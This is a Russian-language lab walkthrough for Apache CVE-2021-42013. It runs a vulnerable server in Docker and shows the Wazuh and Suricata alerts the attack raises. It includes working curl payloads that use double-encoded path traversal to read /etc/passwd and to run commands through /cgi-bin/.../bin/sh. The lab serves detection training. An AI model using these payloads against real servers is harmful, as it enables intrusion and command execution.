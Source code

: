 # CVE-2021-42013

CVE-2021-42013 — это уязвимость, вызванная неполным исправлением [CVE-2021-41773](cve-2021-41773.md).&#x20;

### Эксплуатация уязвимости

Для запуска уязвимого Apache HTTP сервера выполните команды:

```
docker compose build
docker compose up -d
```

После запуска сервера по адресу [http://ваш-ip:8080](http://xn---ip-5cdj7k:8080/) будет доступна дефолтная страница с фразой "It works!

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Предыдущая полезная нагрузка CVE-2021-41773 `http://ваш-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd` была пропатчена, но не полностью.

Для реализации уязвимости нужно использовать `.%%32%65`

```
curl -v --path-as-is http://ваш-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

> обратите внимание, что /icons/ должен быть существующим каталогом

Результатом выполнения команды будет вывод содержимого файла /etc/passwd

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Если на сервере включены моды cgi или cgid, эта уязвимость обхода пути позволит выполнить произвольные команды:

curl -v --data "echo;id" 'http://ваш-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости, о выводе файла /etc/passwd в ответе на ваш запрос и о выполнении произвольных команд.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>
